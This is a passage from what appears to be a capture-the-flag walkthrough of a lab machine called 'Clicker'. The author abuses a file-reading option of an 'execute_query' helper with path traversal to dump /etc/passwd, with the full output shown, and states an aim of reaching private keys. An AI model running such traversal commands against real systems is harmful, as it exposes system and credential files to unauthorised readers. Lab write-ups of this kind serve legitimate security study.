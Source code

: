 Through Inspection It does these workes →

![Untitled](Clicker/Untitled%2014.png)

The values denotes the options that will work upon it →

so option 5 is `File not readable or not found` that indicated that it will be accessing documents so lets access some information like private keys and /etc/passwd values through this →

```bash
www-data@clicker:/opt/manage$ ./execute_query 5 ../../../etc/passwd
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
jack:x:1000:1000:jack:/home/jack:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
' at line 1
www-data@clicker:/opt/manage$
```
{: .nolineno}
